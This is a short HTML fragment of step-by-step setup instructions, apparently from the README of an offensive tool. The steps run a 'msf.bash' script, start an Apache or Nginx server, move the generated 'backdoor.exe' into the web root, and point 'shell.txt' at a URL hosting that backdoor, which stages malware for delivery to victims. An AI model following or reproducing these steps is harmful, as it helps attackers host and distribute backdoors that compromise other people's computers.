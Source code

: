 <ol>
        <li>Run the provided `msf.bash` script:</li>
        <pre><code>./msf.bash</code></pre>

<li>Start your Apache or Nginx web server.</li>
        <p>Choose one of the following commands based on your web server:</p>
        <p>For Apache:</p>
        <pre><code>sudo systemctl start apache2</code></pre>
        <p>For Nginx:</p>
        <pre><code>sudo systemctl start nginx</code></pre>

<li>Upload the file created by `msf.bash` to your web server's root directory (usually `/var/www/html`). You can use tools like `mv` to move the file:</li>
        <pre><code>mv backdoor.exe /var/www/html/</code></pre>

 <li>Open `shell.txt` :</li>
        <pre><code>sudo nano shell.txt</code></pre>

 <li>Edit the `Your_Web_Server_Ip` in `shell.txt` with your Apache or Nginx server's IP address.</li>
        <p>Replace `Your_Web_Server_Ip` with the IP address of your server, e.g.,</p>
        <pre><code>http://Your_Web_Server_Ip/backdoor.exe</code></pre>
</ol>
